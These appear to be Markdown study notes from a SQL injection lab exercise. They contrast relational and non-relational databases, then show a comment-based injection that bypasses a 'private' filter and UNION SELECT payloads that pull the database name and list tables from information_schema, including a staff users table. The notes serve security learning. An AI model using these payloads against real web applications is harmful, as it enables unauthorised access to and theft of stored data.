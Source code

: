 
- Attack on web application database servers that cause malicious queries to be executed.

**Relational vs. Non-Relational Databases**

- Relational database stores information in tables in which the tables often have shared information between them. 
- Tables often contain a column with a unique ID primary key, that will be used to reference tables together and cause **relationships** between them.

- **Non-relational databases** are any sorts of databases that don't use tables, columns, or rows to store data.
	- They don't have a specific database layout so each row of data contains different information which provides more flexibility over relational databases, but less structure.
			- Ex: MongoDB, Cassandra, ElasticSearch

**Practical Example**

- Let's say a website contains many blogs, and has the following URL query for every single blog entry:

	`https://website.thm/blog?id=1`

- The related SQL statement to retrieve the article from the database and display it on the user's page could be something like this:

	`SELECT * from blog where id=1 and private=0 LIMIT; `

Knowing this, we could input into the URL an injection like this:


`https://website.thm/blog?id=2;--`

- Here, the two dashes cause everything after to be treated as a comment, so the backend SQL query would look like this:

	`SELECT * from blog where id=2;-- and private=0 LIMIT; 1`

This will return the article by executign the SQL query `SELECT * from blog where id=2;--`


**Gathering information about database**

- `0 UNION SELECT 1,2,database()` 

This will display a database name if the database table we are accessing has 3 columns.

![[Pasted image 20230301233337.png]]



**Gather list of tables that are in database**

![[Pasted image 20230301233443.png]]

`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema= 'sqli_one``

- The **group_concat()** method gets the specified column (table_name in this case) from multiple returned rows and puts it into one string.

- The **information_schema** database is something that all users have access to, and it contains information about all the databases and tables a user has access to.
		-  We are listing all the tables in the `sqli_one` database.
			- We find that there are tables `article` and `staff_users`
- 